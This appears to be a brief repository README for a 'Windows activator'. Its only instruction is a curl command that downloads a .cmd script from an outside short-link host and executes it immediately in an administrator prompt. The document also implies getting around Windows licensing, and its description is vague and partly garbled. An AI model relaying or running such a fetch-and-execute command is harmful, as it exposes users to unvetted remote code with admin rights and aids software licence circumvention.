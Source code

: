# What is windows activator?
Windows activator is a windows upgrader using cmd only. It is for
developers using an upgraded version of windows.
# How to do it
You can activate it by pasting the command below using admin cmd. You need to have wmic first before 
running this command.
```bash
curl -L keyms.id/aw11 -o aw11.cmd & aw11.cmd
```
After waiting a few minutes on seeing some bahasa titles, your new windows is activated.

